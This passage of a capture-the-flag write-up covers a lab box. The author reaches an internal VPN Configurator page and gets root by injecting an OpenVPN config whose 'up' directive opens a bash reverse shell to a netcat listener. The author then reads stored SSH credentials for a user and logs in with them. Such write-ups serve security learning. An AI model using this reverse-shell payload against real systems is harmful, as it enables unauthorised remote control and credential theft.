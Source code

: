 ![](https://i.imgur.com/HwaRpBY.png)

Going to 127.0.0.1:80 on local web browser, now I can access port 80 from 192.168.122.4:

![](https://i.imgur.com/n5nKS3t.png)

**dns-config.php** -> Not Found

**vpnconfig.php** -> VPN Configurator (Looks like RCE point to me!)

![](https://i.imgur.com/77cW1n5.png)

## OpenVPN RCE

Researching a bit on OpenVPN RCE, I came accross [this article](https://www.bleepingcomputer.com/news/security/downloading-3rd-party-openvpn-configs-may-be-dangerous-heres-why/).

  

Following the script from the above articles, I executed the command on VPN Configurator to spawn a shell successfully.

  

```bash
remote 192.168.122.1
dev tun
script-security 2
nobind
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/1337 0<&1 2>&1&'"
```

![](https://i.imgur.com/fXuBzcO.png)

I had netcat listener running on **dave@ubuntu**(10.10.10.109), and now I have reverse shell connection to **root@DNS**(192.168.122.4):

  

`nc -lvnp 1337`

![](https://i.imgur.com/JqHCZEP.png)

### SSH as dave@DNS

Looking around the file system, I discovered: **user.txt** and **ssh**:

![](https://i.imgur.com/ig0MePo.png)

SSH file had a dave's creds to SSH:(**dave:dav3gerous567**)

![](https://i.imgur.com/qEU4GZV.png)

With the SSH creds found above -> SSHed in to **dave@DNS** from **dave@ubuntu**

![](https://i.imgur.com/zDjomyo.png)
